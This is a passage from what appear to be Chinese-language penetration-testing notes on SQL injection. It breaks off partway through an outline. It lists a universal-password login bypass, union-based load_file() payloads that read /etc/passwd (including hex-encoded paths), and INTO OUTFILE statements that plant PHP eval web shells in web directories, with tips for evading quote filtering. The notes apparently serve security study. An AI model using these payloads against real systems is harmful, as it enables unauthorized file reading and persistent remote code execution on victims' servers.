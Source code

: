 ## 4.7 MongoDB
端口号：27017

# 5. SQL攻击手段
## 5.1 数据库提权
## 5.2 万能密码登陆
ASP站点’or’=‘or’
## 5.3 窃取哈希口令
## 5.4 数据库Dump
## 5.5 读写文件
### 5.5.1 load_file()读取文件操作
前提：
知道文件的绝对路径
能够使用 union 查询
对 web 目录有写的权限
union select 1,load_file('/etc/passwd'),3,4,5#
0x2f6574632f706173737764
union select 1,load_file(0x2f6574632f706173737764),3,4,5#
路径没有加单引号的话必须转换十六进制
要是想省略单引号的话必须转换十六进制
### 5.5.2 into outfile 写入文件操作
前提：
文件名必须是全路径(绝对路径)
用户必须有写文件的权限
没有对单引号'过滤
```
select '<?php phpinfo(); ?>' into outfile 'C:\Windows\tmp\8.php'
select '<?php @eval($_POST["admin"]); ?>' into outfile
'C:\phpStudy\PHPTutorial\WWW\8.php'
```
路径里面两个反斜杠\可以换成一个正斜杠/
PHP 语句没有单引号的话，必须转换成十六进制
要是想省略单引号'的话,必须转换成十六进制
```
<?php eval($_POST["admin"]); ?> 或者 <?php
eval($_GET["admin"]); ?>
<?php @eval($_POST["admin"]); ?>
<?php phpinfo(); ?>
<?php eval($_POST["admin"]); ?>
有时候得写成
<?php eval(\$_POST["admin"]); ?>
```
建议一句话 PHP 语句转换成十六进制
### 5.5.3 数据库备份文件
